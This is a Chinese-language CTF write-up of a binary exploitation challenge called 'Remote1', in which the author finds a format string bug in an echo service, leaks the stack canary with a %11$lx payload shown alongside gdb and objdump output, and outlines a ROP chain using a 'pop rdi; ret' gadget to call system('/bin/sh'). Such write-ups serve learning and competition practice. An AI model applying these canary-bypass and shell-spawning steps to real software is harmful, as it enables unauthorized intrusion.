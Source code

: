 ## Remote1

人生第一次比賽解題，來記錄一下

這題應該要更快解決的Orz，一開始走向比較麻煩的方向，直到**@Brainsp8210** First Blood<(_ _)>

拿到題目就先`./pwn1`執行看看，看到了echo service，直覺是想到**Format String**，於是送個`%lx %lx %lx %lx`，確認是**Format String**，但是一開始想直接去**GOT Hijack**，但是最後一個byte一直失敗QQ，不夠熟悉，該多練練，後來看到同學First Blood，於是轉戰別的方向。

`$ objdump -d pwn1 |less`

看到了`0000000000400620 <__stack_chk_fail@plt>:`應該是可以對他進行**Stack Overflow**於是送了一坨AAAAA給他，`quit`後跳出

`*** stack smashing detected ***: ./pwn1 terminated
[1]    1249 segmentation fault  ./pwn1`

因為**Stack Canary**會被放在**Stack**上，於是利用**Format String**洩漏**Stack**上的值，先送一段payload

**Payload:**

`AAAAAAAA %lx %lx %lx %lx %lx %lx %lx %lx`

**Output:**

`AAAAAAAA 40095f 0 71 7f0cb954e700 1e 23 29b9356620 4141414141414141`

確認了如果要dump出Buffer的第一格需要`%8$lx`，用[Qira][qira]或是**gdb**追一下程式，加上`objdump`

	40083e:       48 8b 4d f8             mov    rcx,QWORD PTR [rbp-0x8]
	400842:       64 48 33 0c 25 28 00    xor    rcx,QWORD PTR fs:0x28
	400849:       00 00
	40084b:       74 05                   je     400852 <echo+0xb0>
	40084d:       e8 ce fd ff ff          call   400620 <__stack_chk_fail@plt>

**Stack Frame**

	(gdb) x/gx $rbp
	0x7fffffffea00: 0x00007fffffffea10
	
	0x7fffffffe9e0: 0x4141414141414141
	0x7fffffffe9e8: 0x00007ffff7a9000a
	0x7fffffffe9f0: 0x0000000000000000
	0x7fffffffe9f8: 0x0a2281f1d38aaf00
	0x7fffffffea00: 0x00007fffffffea10
	0x7fffffffea08: 0x000000000040088a
	0x7fffffffea10: 0x00000000004008a0
	0x7fffffffea18: 0x00007ffff7a58730
	
由**Stack Frame**我們知道**Stack Canary**可用`%11$lx`dump出來，找到**Canary**的值後，等等**Overflow**就可以蓋上同樣的值，在結束**echo**時就不會呼叫`__stack_chk_fail`，繞過**Stack Guard**！！

在`ret`時`rsp`所在的位置覆蓋成`pop rdi ; ret`的gadget，gadget可利用`ROPgadget`去找，讓`rdi`的值為指向`/bin/sh`的字串位置，接著`call system`，即可開啟`Shell`。

[qira]: https://github.com/BinaryAnalysisPlatform/qira

